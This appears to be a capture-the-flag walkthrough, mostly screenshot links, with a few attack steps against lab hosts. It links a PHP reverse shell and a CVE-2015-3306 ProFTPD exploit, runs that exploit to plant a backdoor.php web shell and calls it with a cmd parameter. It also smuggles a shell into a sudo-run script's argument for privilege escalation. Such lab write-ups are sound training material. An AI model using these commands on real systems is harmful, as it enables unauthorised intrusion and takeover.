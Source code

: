 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f3e8358-e78e-4325-8728-7f7a9c85a86d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f0cf6e30-3339-46ba-be5a-6983efc994f1)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/923730ef-244c-4e40-90b6-6471fc00c17e)

https://www.md5hashgenerator.com/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ef5fa02-b286-4971-875b-18df0c36a827)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/26132477-e09c-4fbd-8aca-287bc8cce327)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cd22786a-14a7-4225-a78c-56e17a6afb6d)

```
sudo -l
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/91b888b3-c4e0-4d26-9154-ccd0ea259365)
```
sudo -u lucas ./secretScript.sh;x="/home;/bin/bash"
sudo -u lucas ./secretScript.sh $x
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7056a03f-dff1-4106-bbad-2bcf50bc6048)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a60106ae-1138-4d2c-8a99-86bd3d59b48f)
```
ssh lucas@62.173.140.174 -p 28122
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/974e9d4f-3321-4ce3-b0cf-13d8d74106a6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ed92d1cd-a53c-4330-b02d-24ffe2de0871)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a573e9ff-fbd3-4715-911f-e383c6f97eb9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b6892c9f-cf2c-4789-8a80-d07a17150bc8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9aa111c7-40bd-4595-bbd3-9ee485252fc6)

https://github.com/t0kx/exploit-CVE-2015-3306
```
python exploit.py --host 10.2.7.37 --port 21 --path "/var/www/html"
```
```
curl http://10.2.7.37/backdoor.php?cmd=ls%20-la
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b61b0294-08c9-419c-aad5-ebb3da93eb55)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e1ed989-0d66-4355-b9d8-3bfc6b9c42f3)



